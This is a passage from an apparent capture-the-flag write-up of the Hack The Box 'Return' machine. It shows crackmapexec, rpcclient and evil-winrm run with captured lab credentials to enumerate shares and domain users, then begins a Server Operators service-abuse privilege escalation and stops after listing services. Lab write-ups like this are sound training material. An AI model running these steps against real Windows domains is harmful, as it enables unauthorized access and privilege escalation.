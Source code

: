 In this phase we will enumerate again the domain, but this time we have valid credentials.

### SMB

```bash
┌──(kali㉿kali)-[~/machines/windows/return]
└─$ crackmapexec smb 10.10.11.108 -u 'svc-printer'  -p '1edFg43012!!' --shares
SMB         10.10.11.108    445    PRINTER          [*] Windows 10.0 Build 17763 x64 (name:PRINTER) (domain:return.local) (signing:True) (SMBv1:False)
SMB         10.10.11.108    445    PRINTER          [+] return.local\svc-printer:1edFg43012!! 
SMB         10.10.11.108    445    PRINTER          [+] Enumerated shares
SMB         10.10.11.108    445    PRINTER          Share           Permissions     Remark
SMB         10.10.11.108    445    PRINTER          -----           -----------     ------
SMB         10.10.11.108    445    PRINTER          ADMIN$          READ            Remote Admin
SMB         10.10.11.108    445    PRINTER          C$              READ,WRITE      Default share
SMB         10.10.11.108    445    PRINTER          IPC$            READ            Remote IPC
SMB         10.10.11.108    445    PRINTER          NETLOGON        READ            Logon server share 
SMB         10.10.11.108    445    PRINTER          SYSVOL          READ            Logon server share
```

### RPC

- We can enumerate from RPC

```bash
┌──(kali㉿kali)-[~/machines/windows/return]
└─$ rpcclient -U 'svc-printer' 10.10.11.108
Password for [WORKGROUP\svc-printer]:
rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[svc-printer] rid:[0x44f]
```

### LDAP

- We can enumerate from LDAP

We can connect using evil-winrm

# Privilege escalation

Our user is part of the Server Operators group. This means that we probably have the capability to  modify and restart services.

First we list the services running in the machine

```bash
*Evil-WinRM* PS C:\Users\svc-printer\Documents> services

Path                                                                                                                 Privileges Service          
----                                                                                                                 ---------- -------          
C:\Windows\ADWS\Microsoft.ActiveDirectory.WebServices.exe                                                                  True ADWS             
\??\C:\ProgramData\Microsoft\Windows Defender\Definition Updates\{5533AFC7-64B3-4F6E-B453-E35320B35716}\MpKslDrv.sys       True MpKslceeb2796    
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\SMSvcHost.exe                                                              True NetTcpPortSharing
C:\Windows\SysWow64\perfhost.exe                                                                                           True PerfHost         
```